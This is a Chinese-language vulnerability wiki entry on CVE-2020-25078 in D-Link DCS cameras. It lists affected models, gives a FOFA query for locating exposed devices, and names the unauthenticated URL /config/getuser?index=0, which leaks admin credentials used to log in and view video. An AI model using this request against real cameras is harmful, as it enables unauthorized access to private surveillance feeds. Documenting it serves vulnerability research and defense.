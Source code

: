 # D-Link DCS系列监控 账号密码信息泄露漏洞 CVE-2020-25078

## 漏洞描述

D-Link DCS系列监控 通过访问特定的URL得到账号密码信息，攻击者通过漏洞进入后台可以获取视频监控页面

## 漏洞影响

<a-checkbox checked>DCS-2530L</a-checkbox></br>
<a-checkbox checked>DCS-2670L</a-checkbox></br>
<a-checkbox checked>DCS-4603</a-checkbox></br>
<a-checkbox checked>DCS-4622</a-checkbox></br>
<a-checkbox checked>DCS-4701E</a-checkbox></br>
<a-checkbox checked>DCS-4703E</a-checkbox></br>
<a-checkbox checked>DCS-4705E</a-checkbox></br>
<a-checkbox checked>DCS-4802E</a-checkbox></br>
<a-checkbox checked>DCS-P703</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="D_Link-DCS-2530L"</a-checkbox></br>

## 漏洞复现



访问登录页面如下



![img](/assets/PeiQi-Wiki/img/link-9.png)



出现漏洞的 Url 为, 其中泄露了账号密码



```plain
http://xxx.xxx.xxx.xxx/config/getuser?index=0
```



![img](/assets/PeiQi-Wiki/img/link-10.png)



使用泄露的账号密码登陆系统



![img](/assets/PeiQi-Wiki/img/link-11.png)